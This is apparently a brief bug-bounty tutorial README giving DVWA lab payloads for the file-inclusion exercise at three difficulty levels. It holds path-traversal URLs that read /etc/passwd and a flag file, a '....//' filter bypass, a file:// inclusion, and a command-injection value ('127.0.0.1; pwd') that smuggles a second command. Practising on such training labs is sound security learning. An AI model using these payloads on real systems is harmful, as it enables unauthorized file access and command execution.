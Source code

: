 # bug-bounty-tutorial
bug bounty tutorial

## 9.file-inclusion
### low
```
http://127.0.0.1:42001/vulnerabilities/fi/?page=../../../../../../../../../etc/passwd
http://10.10.229.208/vulnerabilities/fi/?page=../../hackable/flags/fi.php
```
### medium
```
http://127.0.0.1:42001/vulnerabilities/fi/?page=....//....//hackable/flags/fi.php
```
### high
#### in command injection
```
127.0.0.1; pwd
```
#### in file inclision
```
http://127.0.0.1:42001/vulnerabilities/fi/?page=file:///usr/share/dvwa/hackable/flags/fi.php
```
